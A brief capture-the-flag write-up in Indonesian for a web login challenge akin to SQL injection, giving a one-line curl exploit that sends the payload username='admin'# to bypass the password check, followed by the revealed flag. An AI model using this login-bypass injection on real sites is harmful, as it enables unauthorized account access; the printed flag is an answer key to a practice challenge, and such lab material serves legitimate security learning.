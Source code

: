 Mimin buat challenge bukan bug SQL Injection tapi sekiranya hampir sama lah, Coba cari tau bagaimana kalian dapat login sebagai admin dan mendapatkan flagnya.

Link: https://web.ctf.rasyidmf.com/chal8/

```
curl -X POST -d "username='admin'#&password=aaa" https://web.ctf.rasyidmf.com/chal8/ | grep CTFR
```

Flag:
```
CTFR{5ql_1nj3ct10n_r4k1t4n}
```